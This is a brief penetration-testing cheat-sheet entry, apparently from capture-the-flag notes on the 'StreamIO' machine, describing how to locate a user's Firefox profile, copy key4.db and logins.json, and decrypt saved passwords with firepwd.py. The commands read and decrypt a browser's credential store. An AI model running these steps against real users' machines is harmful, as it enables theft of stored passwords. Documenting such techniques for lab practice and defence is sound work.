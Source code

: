 Firefox Cache passwords extract:
First go to the AppData file session for the user:
```powershell
C:\\Users\\nikk37\\AppData\\Roaming\\Mozilla\\Firefox\\Profiles\\br53rxeg.default-release
```
Then extract both files key4.db and logins.json and use the firepwd.py utility:
```python3
python3 firepwd.py key4.db logins.json
```
Examples:
[[StreamIO#^9a4b0a]]



